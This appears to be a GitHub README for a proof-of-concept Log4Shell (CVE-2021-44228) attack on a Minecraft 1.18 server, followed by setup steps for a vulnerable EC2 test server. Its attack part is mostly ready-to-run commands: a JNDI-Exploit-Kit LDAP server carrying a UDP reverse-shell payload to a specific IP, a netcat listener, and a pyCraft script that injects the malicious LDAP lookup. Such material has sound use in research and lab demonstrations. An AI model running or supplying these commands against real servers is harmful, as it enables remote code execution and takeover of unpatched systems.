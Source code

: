 Start screen:
```
screen -S log4shell
```

Start evil LDAP payload server:
```
# [screen 0]
$ cd ~/JNDI-Exploit-Kit
$ sudo java -jar target/JNDI-Exploit-Kit-1.0-SNAPSHOT-all.jar -C "sh -i >& /dev/udp/18.212.74.161/6666 0>&1" -L "18.212.74.161:389" -J "18.212.74.161:8000" -O LDAP
```

Start reverse shell listener:
```
# screen [1]
$ nc -u -nlvp 6666
```

Exploit:
```
# [screen 2]
cd ~/pyCraft
python3 minecraft-log4shell.py -o -u user1234 -s 44.202.61.172 -r 18.212.74.161 --dns c8nfads2vtc0000srss0grk4fxryyyyyr.interact.sh --rce ldap://18.212.74.161:389/1svssl
```

### Vulnerable Minecraft server setup
A EC2 t2.medium (ubuntu 20.04) will do, add a security group with the following inbound rules:

| Protocol | Port  | Source    | Description        |
| -------- | ----- | --------- | ------------------ |
| SSH/TCP  | 22    | 0.0.0.0/0 | Administration     |
| TCP      | 25565 | 0.0.0.0/0 | Minecraft protocol |


#### Install server depedencies
```
# Connect to the EC2 instance
$ ssh -i key-priv.pem ubuntu@44.202.61.172

# Download Minecraft Java Edition Server v1.18 (vulnerable to CVE-2021-44228)
$ mkdir minecraft & cd minecraft/
$ wget https://launcher.mojang.com/v1/objects/3cf24a8694aca6267883b17d934efacc5e44440d/server.jar -O server_1.18.jar

# Install Java17
$ sudo apt update
$ sudo apt install openjdk-17-jre-headless -y
```

#### Server settings 
Create a `server.properties` file with the following content:
```
#Minecraft server properties
enable-jmx-monitoring=false
rcon.port=25575
gamemode=survival
enable-command-block=false
enable-query=false
level-name=world
motd=A Minecraft Server
query.port=25565
pvp=true
difficulty=easy
network-compression-threshold=256
require-resource-pack=false
```
